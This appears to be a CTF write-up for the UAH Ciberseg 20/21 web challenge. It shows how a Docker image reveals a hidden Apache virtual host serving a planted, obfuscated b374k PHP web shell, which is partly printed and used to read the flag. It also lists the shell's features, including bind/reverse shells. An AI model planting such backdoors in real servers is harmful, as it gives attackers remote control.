





# ciberseg-uah-ctf-web
Write up of UAH Ciberseg 20/21 Web Challenge 

## Check initial info
They gave us an IP and a Port, also the backend's Dockerfile:




If we check the web it's a basic HTML:
```
┌──(kali㉿kali)-[~]
└─$ curl -v http://134.122.109.255:9002/
*   Trying 134.122.109.255:9002...
* Connected to 134.122.109.255 (134.122.109.255) port 9002 (#0)
> GET / HTTP/1.1
> Host: 134.122.109.255:9002
> User-Agent: curl/7.72.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 16 Feb 2021 15:49:29 GMT
< Server: Apache/2.4.38 (Debian)
< Last-Modified: Mon, 08 Feb 2021 14:28:47 GMT
< ETag: "1b-5bad3fce0a5c0"
< Accept-Ranges: bytes
< Content-Length: 27
< Content-Type: text/html
< 
<h1>Hyper secure web!</h1>
* Connection #0 to host 134.122.109.255 left intact
```

Lets check the Dockerfile:
```
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ cat Dockerfile 
FROM junquera/web-flag

COPY flag.txt /flag/flag.txt

COPY index.html /var/www/html/
```

Its based in other docker image: junquera/web-flag.
We have to build a container with this base image to gather more info. As we don't have flag.txt and index.html files we must comment this lines and build the image:

```
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ cat Dockerfile          
FROM junquera/web-flag

#COPY flag.txt /flag/flag.txt

#COPY index.html /var/www/html/

```

## Play with docker

Lets build and run:
```
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ docker build -t ciberseg-ctf-web:1.0.0 .                   
Sending build context to Docker daemon  110.1kB
Step 1/1 : FROM junquera/web-flag
 ---> 4bdf31eb2157
Successfully built 4bdf31eb2157
Successfully tagged ciberseg-ctf-web:1.0.0
                                                                                                                    
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ docker run -it ciberseg-ctf-web:1.0.0   
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Feb 16 15:55:29.514680 2021] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.38 (Debian) PHP/8.0.2 configured -- resuming normal operations
[Tue Feb 16 15:55:29.515189 2021] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```

As we can see it's an apache server, we have to change the docker entrypoint in order to get a shell to interact with the local system:
```
┌──(kali㉿kali)-[~/ciberseg-uah-ctf-web]
└─$ docker run -it --entrypoint /bin/bash ciberseg-ctf-web:1.0.0
root@2d47aad65c03:/var/www/html#
```

Once we have a shell we should check /var/www (web files) and /etc/apache2 (apache2 configuration files) directories. In /var/www we have a directory named geronimo, lets check:

```
root@2d47aad65c03:/var/www/html# cd ..
root@2d47aad65c03:/var/www# ls
geronimo  html
root@2d47aad65c03:/var/www# cat geronimo/index.php 
<?php

@error_reporting(0);
@set_time_limit(0); 


$code = "7T35W+u2sr+/73v/g+vLLaGErGwhkJ4QEghbIAkJcE4/rmM7sYk3bGc9r//702ix5cRhOT1t770
t7QFbGo2k0WhmJI3G//s/ej+he57qJ9aeTqvtz+uKsf7LhvDjjwKfIPxwJIjixsZXYa2vG6pwJHC
ZRZI4R6mf4OFpoPpPsm35quV7CZy3URQ0VVJUNyFWSMaWP3PUA0FyHEOXJV+3rbQt+6q/5fmuKpl
iTAlDtQa+diCIKQSDXgjq+UYMqKJ7ju3pgBbV4fuSrJkovShACUsy1aMvopjqSR5+oW1MiV/EIlS
syppN+4Repjoq96ugGp66TKvBXHeW6EUSX6EZAeDoNpirlmwramIlAWM62QYK8gScbgHiL9afQ7z
UYP4a/RZpp5sDRDhEnU9270k2VMlKoKJrCqKGKQ10uWfbJoOdIUigVkhDXBol6RYkfkIE01Ep1dP
nqEFKaq0P8OrUR5nq1DGAtGv9pJgSw3T481m2RxZqEnrc2MoihJ/i2VRMQU2fRVM3VRHaEsIh6qh
bMFiubRwIzqiHhkPkIapTR3dVD5Aokq8mRFdMmkPUXjWRScJ/WfRfLpPPbGy8gtiUpluog0diKrG
b+Qn9n9v+aQ8XQNNFAVoH/WYUXxurLuqnmE1lsiLqtmf3/YnkAicieqnWOCG2qs1OtfnUatTa3XK
zCu3W+0Lik27pwIQJ0ZP66pOJyCduCLYrIN7xbcOeoAbGwmwIR6hCG3Egqg4lQyqqrt28qxbxDIo


...
```

In /etc/apache2:
```
root@2d47aad65c03:/var/www# cd /etc/apache2/
root@2d47aad65c03:/etc/apache2# ls
apache2.conf  conf-available  conf-enabled  envvars  magic  mods-available  mods-enabled  ports.conf  sites-available  sites-enabled
root@2d47aad65c03:/etc/apache2# cat apache2.conf 
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.

# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
#       /etc/apache2/
#       |-- apache2.conf
#       |       `--  ports.conf
#       |-- mods-enabled
#       |       |-- *.load
#       |       `-- *.conf
#       |-- conf-enabled
#       |       `-- *.conf
#       `-- sites-enabled
#               `-- *.conf
#
#
# * apache2.conf is the main configuration file (this file). It puts the pieces
#   together by including all remaining configuration files when starting up the
#   web server.
#
# * ports.conf is always included from the main configuration file. It is
#   supposed to determine listening ports for incoming connections which can be
#   customized anytime.
#
# * Configuration files in the mods-enabled/, conf-enabled/ and sites-enabled/
#   directories contain particular configuration snippets which manage modules,
#   global configuration fragments, or virtual host configurations,
#   respectively.
#
#   They are activated by symlinking available configuration files from their
#   respective *-available/ counterparts. These should be managed by using our
#   helpers a2enmod/a2dismod, a2ensite/a2dissite and a2enconf/a2disconf. See
#   their respective man pages for detailed information.
#
# * The binary is called apache2. Due to the use of environment variables, in
#   the default configuration, apache2 needs to be started/stopped with
#   /etc/init.d/apache2 or apache2ctl. Calling /usr/bin/apache2 directly will not
#   work with the default configuration.


# Global configuration
#

#
# ServerRoot: The top of the directory tree under which the server's
# configuration, error, and log files are kept.
#
# NOTE!  If you intend to place this on an NFS (or otherwise network)
# mounted filesystem then please read the Mutex documentation (available
# at <URL:http://httpd.apache.org/docs/2.4/mod/core.html#mutex>);
# you will save yourself a lot of trouble.
#
# Do NOT add a slash at the end of the directory path.
#
#ServerRoot "/etc/apache2"

#
# The accept serialization lock file MUST BE STORED ON A LOCAL DISK.
#
#Mutex file:${APACHE_LOCK_DIR} default

#
# The directory where shm and other runtime files will be stored.
#

DefaultRuntimeDir ${APACHE_RUN_DIR}

#
# PidFile: The file in which the server should record its process
# identification number when it starts.
# This needs to be set in /etc/apache2/envvars
#
PidFile ${APACHE_PID_FILE}

#
# Timeout: The number of seconds before receives and sends time out.
#
Timeout 300

#
# KeepAlive: Whether or not to allow persistent connections (more than
# one request per connection). Set to "Off" to deactivate.
#
KeepAlive On

#
# MaxKeepAliveRequests: The maximum number of requests to allow
# during a persistent connection. Set to 0 to allow an unlimited amount.
# We recommend you leave this number high, for maximum performance.
#
MaxKeepAliveRequests 100

#
# KeepAliveTimeout: Number of seconds to wait for the next request from the
# same client on the same connection.
#
KeepAliveTimeout 5


# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}

#
# HostnameLookups: Log the names of clients or just their IP addresses
# e.g., www.apache.org (on) or 204.62.129.132 (off).
# The default is off because it'd be overall better for the net if people
# had to knowingly turn this feature on, since enabling it means that
# each client request will result in AT LEAST one lookup request to the
# nameserver.
#
HostnameLookups Off

# ErrorLog: The location of the error log file.
# If you do not specify an ErrorLog directive within a <VirtualHost>
# container, error messages relating to that virtual host will be
# logged here.  If you *do* define an error logfile for a <VirtualHost>
# container, that host's errors will be logged there and not here.
#
ErrorLog ${APACHE_LOG_DIR}/error.log

#
# LogLevel: Control the severity of messages logged to the error_log.
# Available values: trace8, ..., trace1, debug, info, notice, warn,
# error, crit, alert, emerg.
# It is also possible to configure the log level for particular modules, e.g.
# "LogLevel info ssl:warn"
#
LogLevel warn

# Include module configuration:
IncludeOptional mods-enabled/*.load
IncludeOptional mods-enabled/*.conf

# Include list of ports to listen on
Include ports.conf


# Sets the default security model of the Apache2 HTTPD server. It does
# not allow access to the root filesystem outside of /usr/share and /var/www.
# The former is used by web applications packaged in Debian,
# the latter may be used for local directories served by the web server. If
# your system is serving content from a sub-directory in /srv you must allow
# access here, or in any related virtual host.
<Directory />
        Options FollowSymLinks
        AllowOverride None
        Require all denied
</Directory>

<Directory /usr/share>
        AllowOverride None
        Require all granted
</Directory>

<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
</Directory>

#<Directory /srv/>
#       Options Indexes FollowSymLinks
#       AllowOverride None
#       Require all granted
#</Directory>


# AccessFileName: The name of the file to look for in each directory
# for additional configuration directives.  See also the AllowOverride
# directive.
#
AccessFileName .htaccess

#
# The following lines prevent .htaccess and .htpasswd files from being
# viewed by Web clients.
#
<FilesMatch "^\.ht">
        Require all denied
</FilesMatch>


#
# The following directives define some format nicknames for use with
# a CustomLog directive.
#
# These deviate from the Common Log Format definitions in that they use %O
# (the actual bytes sent including headers) instead of %b (the size of the
# requested file), because the latter makes it impossible to detect partial
# requests.
#
# Note that the use of %{X-Forwarded-For}i instead of %h is not recommended.
# Use mod_remoteip instead.
#
LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %O" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-agent}i" agent

# Include of directories ignores editors' and dpkg's backup files,
# see README.Debian for details.

# Include generic snippets of statements
IncludeOptional conf-enabled/*.conf

# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

```

At the end we can see that there is information about virtual hosts in sites-enabled directory:
```
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
```

Lets check:
```
root@2d47aad65c03:/etc/apache2# ls
apache2.conf  conf-available  conf-enabled  envvars  magic  mods-available  mods-enabled  ports.conf  sites-available  sites-enabled
root@2d47aad65c03:/etc/apache2# cat sites-enabled/
000-default.conf  geronimo.conf     
root@2d47aad65c03:/etc/apache2# cat sites-enabled/geronimo.conf 
<VirtualHost *:80>
    DocumentRoot "/var/www/geronimo"
    ServerName geronimo.malware

    # Other directives here
</VirtualHost>
```

So basically to discover another website in 134.122.109.255:9002 we must send the Host Header set as geronimo.malware in the HTTP request. To do this automatically when accessing via browser we can edit the /etc/hosts file:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts           
127.0.0.1       localhost
127.0.1.1       kali
134.122.109.255 geronimo.malware
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

## geronimo.malware:9200

If we access to http://geronimo.malware:9200 we will see a PHP web shell:




[b374k shell 3.2](https://github.com/b374k/b374k)

This PHP Shell is a useful tool for system or web administrator to do remote management without using cpanel, connecting using ssh, ftp etc. All actions take place within a web browser

Features :

- File manager (view, edit, rename, delete, upload, download, archiver, etc)
- Search file, file content, folder (also using regex)
- Command execution
- Script execution (php, perl, python, ruby, java, node.js, c)
- Give you shell via bind/reverse shell connect
- Simple packet crafter
- Connect to DBMS (mysql, mssql, oracle, sqlite, postgresql, and many more using ODBC or PDO)
- SQL Explorer
- Process list/Task manager
- Send mail with attachment (you can attach local file on server)
- String conversion
- All of that only in 1 file, no installation needed
- Support PHP > 4.3.3 and PHP 5

Playing with the web shell in the explorer tab... go to / directory and then to /flag:




Finally change to shell tab:
```
cat flag.txt
```


The flag is:
```
 flag{backdoors-in-fort-apache}
```